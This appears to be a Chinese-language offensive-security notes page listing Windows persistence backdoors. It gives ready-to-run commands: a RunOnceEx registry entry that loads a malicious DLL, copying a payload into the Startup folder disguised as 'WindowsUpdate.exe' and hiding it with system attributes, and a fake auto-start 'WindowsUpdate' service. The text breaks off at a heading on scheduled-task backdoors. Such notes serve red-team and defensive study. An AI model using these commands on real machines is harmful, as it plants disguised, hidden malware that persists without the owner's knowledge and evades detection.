 **RunOnceEx 后门**

- https://oddvar.moe/2018/03/21/persistence-using-runonceex-hidden-from-autoruns-exe/

需要重启和管理员权限

生成恶意 DLL 文件，并部署
```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "C:\Windows\Temp\evil.dll"
```

**自启目录后门**

开机自启后门

1. 上传后门程序

2. 部署后门程序
    ```
    copy "C:\Windows\Temp\payload.exe" "C:\Users\用户名\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\WindowsUpdate.exe" /y
    ```
    删除多余后门副本
    ```
    del C:\Windows\Temp\payload.exe
    ```

3. 隐藏后门程序
    ```
    attrib "C:\Users\lamba\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\WindowsUpdate.exe" +h +s
    ```

**服务启动后门**

开机自启服务并启动后门

1. 上传后门程序

2. 创建 Windows 服务
    ```
    sc create "WindowsUpdate" binpath= "cmd /c start C:\Windows\Temp\payload.exe"
    sc config "WindowsUpdate" start= auto
    ```

3. 启动服务
    ```
    net start WindowsUpdate
    ```

- 停止服务，删除服务
    ```
    net stop WindowsUpdate
    sc delete "WindowsUpdate"
    ```

**计划任务后门**
